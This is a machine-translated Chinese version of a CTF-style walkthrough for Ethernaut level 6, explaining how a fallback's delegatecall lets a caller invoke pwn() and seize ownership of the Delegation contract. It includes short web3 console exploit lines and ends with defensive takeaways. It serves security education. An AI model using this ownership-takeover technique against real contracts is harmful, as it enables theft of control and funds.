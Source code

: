 # 以太 6 级授权[铸造-安全帽]

> 原文：<https://medium.com/coinmonks/ethernaut-level-6-delegation-foundry-hardhat-917faaff3570?source=collection_archive---------23----------------------->

![](img/93b8bac9a140a15aa9762d669edd605e.png)

> *[***Ethernaut-Solutions***](https://github.com/Chirag21/Ethernaut-solutions)*资源库包含了使用 Foundry 和 Hardhat 的解决方案。**

*这个水平说明了如何滥用`[delegatecall](https://docs.soliditylang.org/en/latest/introduction-to-smart-contracts.html#delegatecall-and-libraries)`。*

> *从顶级交易者那里复制交易机器人。免费试一试。*

# *目标*

*   *这个级别要求我们声明对合同的所有权。*

*`delegatecall`*

*`delegatecall`是 Solidity 中一个特殊的低级调用，用于对另一个合同进行外部调用。除了目标地址处的代码在调用契约的上下文(即，在该地址)中执行，并且`msg.sender`和`msg.value`不变之外，它与消息调用相同。*

*这意味着契约可以在运行时从不同的地址动态加载代码。存储、当前地址、余额仍参考调用合同；只有代码是从被叫地址获取的。delegatecall 的优点是您可以保留当前调用协定的上下文。*

> *以太坊将数据存储在存储“[槽](https://docs.soliditylang.org/en/latest/internals/layout_in_storage.html)”中，这是 32 字节大小的槽。每次将变量保存到存储器时，它会自动占用序列中当前槽或下一个槽的剩余空间*。**

*在下面的契约中，契约`A`对契约`B`的`setTo5()`函数进行委托调用。尽管该函数存在于契约`B`中，但是变量`foo`的值在契约`A`中被改变。合同`B`的代码通过合同`A`的存储、`msg.sender`和`msg.value`执行。*

*![](img/66808986f10a8bb7283507ccce79f5c8.png)*

*这意味着来自一个契约的代码可以用来改变另一个契约的存储。我们将在这一关利用这种行为。*

> *如果通过低级 delegatecall 访问状态变量，则两个协定的存储布局必须对齐，以便被调用的协定能够通过名称正确地访问调用协定的存储变量。当然，如果存储指针作为函数参数传递，就不是这种情况了，就像高级库的情况一样。*

# *分析*

*   *有两种合同:委托和授权。委托合同制作`delegatecall`委托合同。*
*   *委托契约有一个公共函数`pwn()`，它将`owner`设置为`msg.sender`，即调用该函数的人。*

```
*contract Delegate {
    address public owner;   // Slot 0
    function pwn() public {
        owner = msg.sender; // Saves msg.sender to slot 0
    }
}*
```

*   *请注意，在委托契约中，槽 0 处也有一个所有者变量*

```
*contract Delegation {
  address public owner;    // Slot 0
  Delegate delegate;       // Slot 1
  ...
}*
```

*   *委托合同有一个`fallback()`函数，它对委托合同进行委托调用。*

```
*fallback() external {
  (bool result,) = address(delegate).delegatecall(msg.data);
}*
```

*从“1 级回退”中记住，当没有匹配的`[function selector](https://solidity-by-example.org/function-selector/)`时，调用`fallback()`函数。我们可以通过在事务中发送`data`来调用`public`和`external`函数。这个`data`就是编码`[function selector](https://solidity-by-example.org/function-selector/)`和`function arguments`。*

*   *为了利用契约，我们需要触发委托契约的`fallback()`函数，将`msg.data`作为`pwn()`函数的`function selector`传递。这将通过对委托合同进行委托调用来触发`pwn()`函数。注意两个合同库`owner`的`Slot 0`。由于是`delegatecall`，调用合同即委托合同的存储被修改，使`msg.sender`成为委托合同的新`owner`。*

# *剥削*

*   *首先，获取`pwn()`功能的功能选择器。pwn()的选择器是`0xdd365b8b`。*

```
*const selector = web3.eth.abi.encodeFunctionSignature('pwn()')*
```

*   *检查电流`owner`。*

```
*await contract.owner()*
```

*   *调用`Delegation.sol`的回退功能*

```
*await contract.sendTransaction({
    from: player,
    data: selector
})*
```

*这会将您的地址设置为新的所有者。*

*   *查查车主*

```
*await contract.owner()*
```

*这将返回您的地址。这将返回您的地址。通过将事务发送给`Delegation`契约，使用`delegatecall`在`Delegation`契约的上下文中调用`Delegate`契约的`pwn()`函数，并修改存储。*

*提交实例。*

*关卡通过！！！😄*

# *关键要点*

*   *确保调用协定的存储槽与被调用协定的存储槽对齐，以避免意外分配。*
*   *使用`delegatecall`前，执行验证和条件检查。*
*   *当不需要改变合约存储时使用`staticcall`(调用`view`和`pure`函数)。*
*   *不要`delegatecall`给不可信的代码。*

> **[***Ethernaut-Solutions***](https://github.com/Chirag21/Ethernaut-solutions)*资源库包含使用 Foundry 和 Hardhat 的解决方案。***
> 
> ***解决方案采用铸造:-***
> 
> **[*测试*](https://github.com/Chirag21/Ethernaut-Solutions-using-Foundry-Hardhat/blob/main/test/foundry/6_Delegation.t.sol)*[漏洞利用脚本](https://github.com/Chirag21/Ethernaut-Solutions-using-Foundry-Hardhat/blob/main/script/6_DelegationScript.sol)***
> 
> ****使用安全帽的解决方案:-****
> 
> **[*Tes* t](https://github.com/Chirag21/Ethernaut-Solutions-using-Foundry-Hardhat/blob/main/test/hardhat/6_delegation.test.ts) ， [*漏洞利用脚本*](https://github.com/Chirag21/Ethernaut-Solutions-using-Foundry-Hardhat/blob/main/scripts/6_delegation_exploit.ts)**

**[![](img/679392ad412abc67dd16f3b9fefa799d.png)](https://www.buymeacoffee.com/0xcsp)**

# **更多级别**

**[](/coinmonks/ethernaut-level-7-force-foundry-hardhat-581e92687422) [## 以太 7 级力量[铸造-安全帽]

### Ethernaut-Solutions 存储库包含使用 Foundry 和 Hardhat 的解决方案。

medium.com](/coinmonks/ethernaut-level-7-force-foundry-hardhat-581e92687422) [](/coinmonks/ethernaut-level-5-token-foundry-hardhat-d9d52e5ce39a) [## 以太 5 级令牌[铸造厂-安全帽]

### Ethernaut-Solutions 存储库包含使用 Foundry 和 Hardhat 的解决方案。

medium.com](/coinmonks/ethernaut-level-5-token-foundry-hardhat-d9d52e5ce39a) 

> 加入 Coinmonks [电报频道](https://t.me/coincodecap)和 [Youtube 频道](https://www.youtube.com/c/coinmonks/videos)了解加密交易和投资

# 另外，阅读

*   [OKEx vs KuCoin](https://coincodecap.com/okex-kucoin) | [摄氏替代度](https://coincodecap.com/celsius-alternatives) | [如何购买 VeChain](https://coincodecap.com/buy-vechain)
*   [ProfitFarmers 回顾](https://coincodecap.com/profitfarmers-review) | [如何使用 Cornix 交易机器人](https://coincodecap.com/cornix-trading-bot)
*   [如何匿名购买比特币](https://coincodecap.com/buy-bitcoin-anonymously) | [比特币现金钱包](https://coincodecap.com/bitcoin-cash-wallets)
*   [瓦济里克斯 NFT 评论](https://coincodecap.com/wazirx-nft-review)|[Bitsgap vs Pionex](https://coincodecap.com/bitsgap-vs-pionex)|[Tangem 评论](https://coincodecap.com/tangem-wallet-review)
*   如何使用 Solidity 在以太坊上创建 DApp？**